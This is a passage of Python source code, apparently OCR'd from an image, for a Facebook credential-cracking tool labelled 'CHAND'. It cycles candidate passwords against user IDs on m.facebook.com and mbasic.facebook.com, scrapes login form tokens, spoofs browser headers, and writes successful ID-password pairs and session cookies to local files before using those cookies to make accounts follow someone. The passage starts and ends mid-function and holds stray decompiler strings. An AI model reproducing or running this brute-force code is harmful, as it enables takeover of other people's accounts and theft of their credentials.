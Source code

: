 			p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://m.facebook.com/login/save-device/'"}
			ses.headers.update({"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				cp +=1
				print( f'\r\x1b[1;93m [CHAND-OK ] {idf} | {pw}')
				open('OK/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				coki=po.cookies.get_dict()
				coki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r\x1b[1;92m [CHAND-OK ] {idf} | {pw}')
				wrt =('%s - %s' % (idf,pw))
				ok.append(wrt)
				open('/sdcard/CHAND-OK.txt','a').write('%s\n' % wrt)
				follow(ses,coki)
				break
 
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def free(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	sys.stdout.write('\r %s[ Count] %s/%s • OK:%s • CP:%s  '%(bi,loop,len(id2),len(ok),cp)),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			pw = pw.lower()
			ses.headers.update({"Host":'mbasic.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://mbasic.facebook.com/login/save-device/'"}
